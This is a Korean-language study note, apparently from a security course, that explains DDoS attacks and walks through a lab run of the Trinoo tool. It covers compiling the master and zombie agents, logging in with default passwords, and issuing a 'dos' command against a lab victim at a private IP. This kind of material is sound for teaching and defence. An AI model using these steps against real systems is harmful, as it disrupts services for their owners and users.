



## DDOS

- DDoS (Distribution Denial of Service)

  - 분산 서비스 거부 공격

  - DoS 공격의 발전 형태

  - 공격 시스템을 여러 대로 분산 배치하여 대량의 트래픽으로 공격대상의 서비스를 마비시키는 공격

    > 악성코드 등을 이용하여 Zombie PC를 획득하여 C&C서버를 통해 공격 명령을 내림

  - 기본적으로 공격의 형태가 (1 → N) vs 1

    > (공격자(1) → 좀비PC(N)) vs 공격대상(1)

- 공격 방식
  - 물리적인 파괴
  - 시스템 리소스 공격 → CPU, Memory, Disk, 특정 Application ...
  - 네트워크 대역폭 공격 → 대역폭 고갈

- 실습

  - 구성도

    

  - Master, agent 에서 gcc 설치

    ```
    # yum -y install gcc
    ```

  - master(C&C)에서 설정

    ```
    # gcc
    ```

    

    ```
    [root@localhost ~]# cd ./master
    [root@localhost master]# make
    ```

    

    ```
    [root@localhost master]# ls
    ```

    

  - agent(zombie)에서 설정

    ```
    [root@localhost ~]# cd daemon/
    [root@localhost daemon]# ls
    ```

    

    ```
    C&C 서버의 주소를 입력
    [root@localhost daemon]# vi ns.c
    ```

    

    ```
    실행 파일 컴파일을 위해서 master 디렉터리의 내용을 복사
    [root@localhost daemon]# cp /root/master/* /root/daemon/
    [root@localhost daemon]# ls
    ```

    

    ```
    파일 수정
    [root@localhost daemon]# vim Makefile
    ```

    

    ```
    컴파일 수행
    [root@localhost daemon]# make
    ```

    

    

  - master(C&C) 설정

    ```
    [root@localhost master]# ./master 
    ?? gOrave (대문자 O)
    ```

    

    ```
    포트 번호 확인
    [root@localhost master]# netstat -antup | grep master
    ```

    

  - agent(zombie) 

    ```
    master 에 연결
    [root@localhost daemon]# ./daemon
    [root@localhost daemon]# netstat -antup | grep daemon
    ```

    

  - kali (attacker)에서 공격수행

    ```
    └─# telnet 172.16.0.111 27665
    ```

    

    ```
    betaalmostdone 입력
    ```

    

    ```
    정보확인
    trinoo> info
    ```

    

    ```
    현재 연결된 agent 목록
    trinoo> bcast
    ```

    

    ```
    공격
    trinoo> dos 172.16.0.100(xp)
    ```

  - 와이어샤크 확인

    > kali(attacker)

    

    > xp (victim)

    